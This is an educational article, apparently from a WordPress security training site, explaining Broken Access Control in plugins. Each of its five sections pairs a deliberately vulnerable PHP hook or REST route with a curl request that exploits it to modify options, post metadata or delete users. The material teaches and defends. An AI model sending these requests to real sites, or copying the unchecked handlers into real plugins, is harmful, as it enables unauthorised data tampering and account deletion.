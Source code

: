 ```yaml
---
title: Broken Access Control
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Broken Access Control on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to access or update sensitive information.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/academy/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/academy/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/academy/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/academy/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

<LinkCard
  title="Learn how to secure your code against Broken Access Control"
  href="/academy/wordpress/securing-code/broken-access-control/"
/>

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code:

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        update_option("user_data", sanitize_text_field($_GET_["data"]));
    }
}
```

To exploit this, an unauthenticated user just needs to visit the front page of a WordPress site and specify the parameter to trigger the `update_option` function which in this case will modify sensitive information.

```bash
curl <WORDPRESS_BASE_URL>/?update=1&data=test
```

## `admin_init` hook

For more details about the `admin_init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code:

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST["delete"])){
        delete_option("custom_admin_menu");
    }
}
```

To exploit this, the unauthenticated user just needs to perform a POST request to the `admin-ajax.php` and `admin-post.php` endpoints specifying the needed parameter to trigger the `delete_option` function to remove sensitive data.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat -d "delete=1"
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, any authenticated user (**Subscriber+** role) just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_post_meta` function to update arbitrary WP Post metadata.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data&update=1 -d "id=1&data=changed"
``` 

## [`wp_ajax_nopriv_{$action}`](https://developer.wordpress.org/reference/hooks/wp_ajax_nopriv_action/) hook

For more details on the `wp_ajax_nopriv_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_nopriv_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_toggle_menu_bar", "toggle_menu_bar");

function toggle_menu_bar(){
    if ($_POST["toggle"] === "1"){
        update_option("custom_toggle", 1);
    }
    else{
        update_option("custom_toggle", 0);
    }
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_option` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=toggle_menu_bar -d "toggle=1"
``` 

## `register_rest_route` function

For more details on the `register_rest_route` function, please refer to this [documentation](/academy/wordpress/wordpress-internals/functions/#register_rest_route-function).

Sometimes, developers don't implement a proper permission check on the custom REST API route and use the `__return_true` string as the permission callback. This makes the custom REST API route to be publicly accessible.

```php
add_action( 'rest_api_init', function () {
  register_rest_route( 'myplugin/v1', '/delete/author', array(
    'methods' => 'POST',
    'callback' => 'delete_author_user',
    'permission_callback' => '__return_true',
  ) );
} );

function delete_author_user($request){
    $params = $request->get_params();
    wp_delete_user(intval($params["user_id"]));
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/delete/author` endpoint specifying the needed parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/delete/author -d "user_id=1"
``` 

Other cases could exist where developers already specify a proper function on the `permission_callback` parameter, however, the permission check implemented inside the function itself is not proper to what process can be done from the REST API route `callback` function.